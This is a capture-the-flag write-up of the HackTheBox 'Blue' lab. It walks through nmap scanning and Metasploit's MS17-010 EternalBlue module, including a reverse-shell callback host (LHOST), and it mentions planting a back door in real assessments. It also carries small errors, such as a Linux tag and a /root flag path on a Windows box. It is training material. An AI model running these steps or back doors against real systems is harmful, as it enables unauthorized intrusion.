 ```yaml
---
title: "HTB | BLUE"
date: 2024-08-03 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - EternalBlue + Metasploit

**Vulnerability Explanation:** The machine is vulnerable to EternalBlue. EternalBlue is an infamous exploit of the SMB port against old Windows machines. A publicly available exploit is used to gain access to the machine.

**Vulnerability Fix:** Disable the SMB port. Upgrade the system to one that is not vulnerable to EternalBlue.

**Severity:** Critical

**Steps to reproduce the attack:** 

**Port Scan Results**

**TCP:** 135,139,445,49152,49153,49153,49154,49155,49156,49157

**UDP:** N/A

Use nmap to scan the target for open ports.

TCP ports 135, 139, 445, 49152-49157 were discovered.

```shell
sudo nmap -p- -T5 -vvv -oN nmap.initial 10.10.10.40
```

![img-description](/assets/img/HTB/BLUE/1.png)


Enumerate further on port 445, SMB, using nmap scripting engine(NSE). The target machine is vulnerable to EternalBlue(ms17-010).

```shell
sudo namp -sV -p 445 --script "vuln" 10.10.10.40
```

![img-description](/assets/img/HTB/BLUE/2.png)

Using Metasploit, search for the exploit, set the parameters and run it to gain a shell on the target machine.

```shell
sudo msfconsole
```

```
search ms17-010
```
```
use 0
```
![img-description](/assets/img/HTB/BLUE/3.png)

```
set RHOSTS 10.10.10.40
```
```
set LHOST 10.10.16.10
```

![img-description](/assets/img/HTB/BLUE/4.png)

```
run
```

![img-description](/assets/img/HTB/BLUE/5.png)
![img-description](/assets/img/HTB/BLUE/6.png)
We have successfully got initial access to the machine as ‘nt authority’.

‘nt authority’ is a high privileged user so privilege escalation is not needed.
## Privilege Escalation - N/A

**Vulnerability Explanation:** N/A

**Vulnerability Fix:** N/A

**Severity:** N/A

**Steps to reproduce the attack:** N/A

## Post Exploitation

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.